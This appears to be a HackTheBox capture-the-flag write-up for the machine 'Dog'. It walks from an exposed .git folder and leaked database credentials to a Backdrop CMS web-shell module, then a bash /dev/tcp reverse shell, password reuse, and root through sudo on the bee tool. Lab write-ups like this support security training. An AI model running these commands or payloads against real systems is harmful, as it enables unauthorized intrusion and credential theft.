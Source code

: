```yaml
---
title: Dog
categories: [HackTheBox]
tags: [cve, codereview]
media_subpath: /images/hackthebox_dog/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png'
---
```


# Summary 
Dog is a retired easy HackTheBox machine that involves exploiting a vulnerable version of Backdrop CMS to gain initial access by reading an exposed `.git` folder, enumerating valid username and password for the administration page and exploiting a vulnerability from the running version of the CMS, followed by privilege escalation through a backdrop CMS cli utilitary, called `bee`.

# Walkthrough

## Nmap Scan
```bash
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan we have an indication that the target is running an Ubuntu server with SSH and HTTP services open.


## 80 - Web Server
### Enumeration

By first accessing the web server, we can see a simple page with a dog image and a link to a login page.

![NON](file-20250711125430776.png)

Looking at the bottom of the page, we can see that the web server is running with the `Backdrop CMS`, which is an open-source content management system (CMS) designed for small to medium-sized websites.

![NON](file-20250711135239693.png)

Since it is an open-source CMS, we can search for the files present in the web server. Looking at the source code of the page, we can see that there is a `robots.txt` file, `LICENSE` and `README.md` files.

![NON](file-20250711125904971.png)

![NON](file-20250711125913714.png)
There was not much information on those files, so I started with the `dirsearch` tool to enumerate the directories and files present in the web server.

```bash
dirsearch -u http://10.10.11.58
```

![NON](file-20250711130003853.png)

There was an exposed `.git` folder, which we can use to reconstruct the source code of the web server, look at previous commits, and find sensitive information.

To dump the contents of the `.git` folder, we can use the `git-dumper` tool.

```bash
git-dumper http://10.10.11.58 src
```

And now we have the source code of the web server in the `src` folder.
![NON](file-20250711130247742.png)

### Finding sensitive information
Looking at the `settings.php` file, we can see that the web server is using a MySQL database alongside with the `root` credentials of the database.

![NON](file-20250711130311632.png)

There was also a folder made of random characters, which would not be caught by the `dirsearch` tool.

![NON](file-20250711130445924.png)

There are 6133 files on that folder, and it is not possible to look at all of them manually. So we can use the `grep` command to search for interesting strings in those files.

#### Finding valid username
We start by searching for references to the `dog` word, which is the name of the target machine, which gave us a possible username.

![NON](file-20250711130618738.png)

Trying to login with that username and the password we found in the `settings.php` file, we can successfully login into the web server.

![NON](file-20250711130953412.png)


Looking at the `status report` page, we found the current version of the `CMS` running at the target, being `1.27.1`

![NON](file-20250711140355258.png)

Looking at public exploites for that specific version, we can find an [authenticated remote command execution vulnerability](https://www.exploit-db.com/exploits/52021), which allows us to execute arbitrary commands on the target machine.

### Exploiting the vulnerability
By running the exploit, it creates a `shell.zip` file, which we can use to install a custom module on the server and from there we can execute arbitrary commands.

![NON](file-20250711131725453.png)

![NON](file-20250711131704830.png)

By sending the `zip` file created by the exploit, we received an error message indicating that `zip` files are not allowed to be uploaded, it only allows `tar, tgz, gz and bz2` files.


```bash
tar -czvf shell.tar.gz shell/*
```


![NON](file-20250711140715542.png)

So instead of using the `zip` file, we created the `tar.gz` file with the same contents, which is the `shell.zip` file.

After that, we try accessing the `shell` module, which is located at `modules/shell/shell.php`, and we have a simple web shell that allows us to execute commands on the target machine.

![NON](file-20250711131847934.png)

## Foothold
We sen our reverse shell payload `bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'`, and got access to the target machine.

![NON](file-20250711131944291.png)

### Lateral Privilege Escalation
Looking at the `/etc/passwd` file, we can see that the following users are present on the target machine:

```bash
cat /etc/passwd | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Trying a password spray with the password we found in the `settings.php` file, we can successfully login into the `johncusack` user.

![NON](file-20250711133333620.png)

## Privilege Escalation
Looking at the `sudo` permissions of the `johncusack` with `sudo -l`, we can see that the user can run the `bee` binary as root without a password.
![NON](file-20250711133356334.png)

Bee is a command-line tool utility for the Backdrop CMS, we can see its [documentation here](https://github.com/backdrop-contrib/bee).

Looking at the help section of the `Bee` binary, we can see that it can run arbitrary php code, making it possible to escalate privileges to root.

![NON](file-20250711133501856.png)
Trying to execute the command with the `eval` flag, we receive an error message "The required bootstrap level for `eval` is not ready."


![NON](file-20250711133540530.png)

Looking at the help, we see it is trying to use the `--root` flag at our current working directory, which is not a valid Backdrop CMS root directory. So we can use the `--root` flag to specify the root directory of the Backdrop CMS, which is `/var/www/html`, or run the command from that directory, granting us `root` command execution.

![NON](file-20250711141853268.png)

![NON](file-20250711133846290.png)
